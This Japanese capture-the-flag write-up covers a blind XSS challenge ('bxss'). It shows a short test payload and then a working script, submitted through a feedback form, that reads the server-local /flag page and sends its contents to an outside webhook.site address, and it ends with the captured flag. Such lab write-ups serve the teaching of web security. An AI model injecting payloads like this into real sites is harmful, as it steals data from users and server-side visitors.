



# Writeup

* http://web.zh3r0.cf:3333/feedback

上記のページにアクセスする。



問題タイトルが`bxss`ということで、XSSを試してみる。

```js
<script>window.onload(webhookのURL);</script>
```

と入力すると、サーバーサイドでURLにアクセスしていることが分かった。

また、 

* http://web.zh3r0.cf:3333/flag

にアクセスすると、`Not Found`ではなく



と表示されることから、ローカルの`flag`を読み出せばよいことが分かる。

以下のコードをFormに入力するとフラグが得られる。

```js
<script>
var uri = "https://webhook.site/d709442c-232a-41d2-929d-2371e1f4d0cf/?q=";
try {
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'flag', false);
    xhr.send(null);
    window.open(uri+xhr.responseText);
} catch (e){
    window.open(uri+e);
}
</script>
```



<!-- zh3r0{{Ea5y_bx55_ri8}} -->
